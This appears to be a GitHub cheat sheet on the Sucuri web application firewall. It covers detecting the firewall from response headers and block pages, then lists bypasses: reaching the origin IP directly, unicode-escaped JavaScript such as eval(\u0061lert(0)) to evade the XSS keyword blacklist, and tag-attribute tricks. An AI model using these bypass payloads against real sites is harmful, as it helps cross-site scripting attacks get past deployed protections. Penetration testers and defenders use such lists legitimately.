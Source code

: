# Securi WAF

## Detection

- Detectability: Easy
Detection Methodology:
- Response headers may contain Sucuri or Cloudproxy keywords.
- Blocked response page contains the following text snippet:
- Access Denied - Sucuri Website Firewall text.
- Reference to https://sucuri.net/privacy-policy URL.
- Sometimes the email cloudproxy@sucuri.net.
- Contains copyright notice ;copy {year} Sucuri Inc.
- Response headers contains X-Sucuri-ID header along with normal requests.

---

## Bypasses

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


3. Space can be bypassed with 
```
:
<a:href=hello>click me</a>

or

/
<a/href=hello>click me</a>

```

## Help 

https://github.com/0xInfection/Awesome-WAF  
https://github.com/vincentcox/bypass-firewalls-by-DNS-history  



